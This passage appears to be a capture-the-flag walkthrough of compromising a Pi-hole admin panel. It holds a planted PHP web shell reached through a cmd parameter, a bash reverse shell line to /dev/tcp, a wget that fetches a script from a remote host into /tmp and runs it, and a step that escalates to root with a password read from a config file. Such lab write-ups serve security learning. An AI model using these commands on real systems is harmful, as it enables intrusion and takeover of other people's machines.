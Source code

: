 Hit save and update and listen on port 80. After a few seconds we get a request on the listener. We need to send an HTTP 200 response.

![](https://cdn-images-1.medium.com/max/2000/1*ZzwmNAzlfiEjRLkxuXkbdw.png)

After closing the listener we can see

![](https://cdn-images-1.medium.com/max/2000/1*LDqueFCS2Gk3TJaJnY1GFw.png)

Now again listen to port 80 and click the update button.

![](https://cdn-images-1.medium.com/max/2000/1*G16vCtmUUcs0-v7Y1NsJaw.png)

If we don’t receive .domains then something might not be working. Hit enter and write a payload

![](https://cdn-images-1.medium.com/max/2000/1*ntR5fkgmbhYXE2dnuVN0EA.png)

I uploaded a PHP shell. To get the shell visit

    /admin/scripts/pi-hole/php/fun.php

**Checking reverse shell**

    [http://localhost:8000/admin/scripts/pi-hole/php/fun.php?cmd=whoami](http://localhost:8000/admin/scripts/pi-hole/php/fun.php?cmd=whoami)
    

I tried uploading php reverse shell using this web shell but it was not working for some reasons. So I wrote a simple bash reverse shell and uploaded it into /tmp

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

**Uploaded the bash reverse shell to /tmp directory**

    [http://localhost:8000/admin/scripts/pi-hole/php/fun.php?cmd=wget%2010.10.14.125:8181/ro.sh%20-O%20/tmp/ro.sh](http://localhost:8000/admin/scripts/pi-hole/php/fun.php?cmd=wget%2010.10.14.125:8181/ro.sh%20-o%20/tmp/ro.sh)

![](https://cdn-images-1.medium.com/max/2000/1*V5PtW7S9TBT0rwtwCrYogg.png)

**Executing the script**

    [http://localhost:8000/admin/scripts/pi-hole/php/fun.php?cmd=/bin/](http://localhost:8000/admin/scripts/pi-hole/php/fun.php?cmd=/bin/bash%20/tmp/ro.sh)

We get a shell

![](https://cdn-images-1.medium.com/max/2000/1*RBBPLa9WJ7hMkXcURDHHLg.png)

The files in /root directory is readable by all

![](https://cdn-images-1.medium.com/max/2000/1*3LoAawrOebh3-D5My1h6-w.png)

The pihole_config.sh has a password.

![](https://cdn-images-1.medium.com/max/2000/1*72ZO8RU0RNZB-hQo_tyx0w.png)

Changing the user to root in the box using this password works.
